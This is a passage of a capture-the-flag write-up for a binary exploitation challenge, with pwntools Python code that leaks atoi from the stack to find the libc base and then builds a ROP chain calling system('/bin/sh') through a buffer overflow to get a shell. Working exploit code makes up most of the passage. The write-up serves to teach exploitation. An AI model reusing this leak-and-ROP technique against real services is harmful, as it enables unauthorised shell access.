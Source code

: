 The setup above is the final version, but before we can get there, we'll start with our local libc block, then switch to the challenge libc after discovered.


### Easy Path: Leak libc

```python
p.sendafter('do you have any number in mind ??\n','8')
p.sendafter('are yo sure ??\n',8 * 'A')
_ = p.recv(14).strip()[-6:]
atoi = u64(_ + b'\x00\x00') - 16
log.info('atoi: ' + hex(atoi))
libc.address = atoi - libc.sym.atoi
log.info('baselibc: ' + hex(libc.address))
```

From the analysis section we determined `atoi+16` is leaked 8 bytes in, the above will just put 8 bytes, and then catch the leak from `printf`.

> NOTE: This is _not_ guaranteed to work with the challenge libc version.  The `+16` offset within `atoi` can vary from libc to libc.  The probably of this diverging increases as the offset increases, i.e. code changes.  When working on challenges like this where I'm using the stack to leak libc I try to be as close to the running environment as possible, e.g.:
> 
> ```
> # strings numbers | grep GCC
> GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
> ```
> 
> Based on the output above I used an Ubuntu 18 container as a starting point.

At this point, its time to leak `atoi` from the challenge server and use the [libc-database](https://github.com/niklasb/libc-database) to find the correct libc version and test.  Fortunately, the offset of `16` is the same.


### Easy Path: Get a shell, get a flag

```python
p.sendafter('try again ?\n','y')
p.sendafter('do you have any number in mind ??\n','-1')

rop = ROP([libc])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
log.info('pop_rdi: ' + hex(pop_rdi))

payload  = 0x48 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.sym.system)

p.sendafter('sure ??\n',payload)
p.recv(len(payload))
p.interactive()
```
